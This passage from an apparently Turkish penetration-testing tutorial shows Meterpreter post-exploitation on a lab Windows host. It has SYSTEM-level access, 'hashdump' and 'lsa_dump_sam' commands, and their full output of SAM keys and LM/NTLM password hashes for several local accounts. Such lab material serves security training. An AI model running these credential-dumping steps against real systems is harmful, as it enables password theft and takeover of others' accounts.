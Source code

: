 ```shell-session

Server username: NT AUTHORITY\SYSTEM
```

Buradan, Meterpreter fonksiyonlarının bolluğunu kullanmaya devam edebiliriz. Örneğin, hash çıkarma, istediğimiz herhangi bir işlemi taklit etme ve diğerleri.

#### MSF - Dumping Hashes
```shell-session
meterpreter > hashdump

Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::


meterpreter > lsa_dump_sam

[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182

SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

RID  : 000001f4 (500)
User : Administrator
  Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
  Hash NTLM: d6908f022af0373e9e21b8a241c86dca

RID  : 000001f5 (501)
User : Guest

RID  : 000003e9 (1001)
User : SUPPORT_388945a0
  Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

RID  : 000003eb (1003)
User : IUSR_GRANPA
  Hash LM  : a274b4532c9ca5cdf684351fab962e86
  Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

RID  : 000003ec (1004)
User : IWAM_GRANPA
  Hash LM  : 95d112c4da2348b599183ac6b1d67840
  Hash NTLM: a97f39734c21b3f6155ded7821d04d16

RID  : 000003ef (1007)
User : ASPNET
  Hash LM  : 3f71d62ec68a06a39721cb3f54f04a3b
  Hash NTLM: edc0d5506804653f58964a2376bbd769

RID  : 000003f1 (1009)
User : Lakis
  Hash LM  : f927b0679b3cc0e192410d9b0b40873c
  Hash NTLM: 3064b6fc432033870c6730228af7867c
```

